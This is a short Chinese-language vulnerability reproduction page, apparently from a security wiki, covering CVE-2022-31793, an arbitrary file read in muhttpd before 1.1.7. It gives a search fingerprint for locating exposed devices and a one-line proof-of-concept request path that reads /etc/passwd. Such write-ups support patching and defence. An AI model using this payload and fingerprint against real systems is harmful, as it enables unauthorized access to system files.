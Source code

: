 # muhttpd 任意文件读取漏洞 CVE-2022-31793

## 漏洞描述

muhttpd（mu-HTTP-deamon）是一个简单但完整的web服务器，用可移植的ANSI C编写。它支持静态页面、CGI脚本、基于MIME类型的处理程序和HTTPS。它在接受任何连接之前放弃特权，并且可以记录接收到的请求。它已经在GNU/Linux、NetBSD、FreeBSD、Mac OS X和Cygwin上进行了测试。它在32位和64位、小端和大端系统上成功运行。

muhttpd 1.1.7之前版本存在安全漏洞。攻击者利用该漏洞读取系统任意文件。

## 漏洞影响

<a-checkbox checked>muhttpd 1.1.7</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"2017 ARRIS Enterprises,"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1662196402060-ee53d3f5-654b-4fad-8344-3b540d2da4f4.png)

验证POC

```html
a/etc/passwd 
```

![img](/assets/PeiQi-Wiki/img/1662196427874-5ec5ef53-a14e-43f2-a9f8-205a1f8119de.png)
